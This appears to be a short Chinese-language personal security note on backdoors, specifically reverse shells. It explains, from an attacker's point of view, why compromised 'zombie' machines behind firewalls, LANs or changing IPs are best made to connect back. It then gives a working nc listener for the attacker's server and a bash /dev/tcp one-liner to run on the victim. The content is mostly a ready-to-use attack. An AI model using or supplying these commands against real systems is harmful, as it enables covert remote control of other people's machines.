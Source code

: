 ```yaml
---
created_date: 2020-12-06
---
```


[TOC]

## 后门
- 参考  
https://xz.aliyun.com/t/2549  
### 反弹shell
1. 意义
    1. 局域网内肉鸡无法被连接。
    2. 肉鸡ip会动态改变，不能持续控制。
    3. 防火墙等限制，肉鸡只能发送请求，不能接收请求。
    4. 肉鸡网络环境未知，主动连接，省事。
2. 实现
```bash
# 我方服务器执行
nc -lvp 2333
# 肉鸡上执行
IP=127.0.0.1
bash -i >& /dev/tcp/${IP}/2333 0>&1
```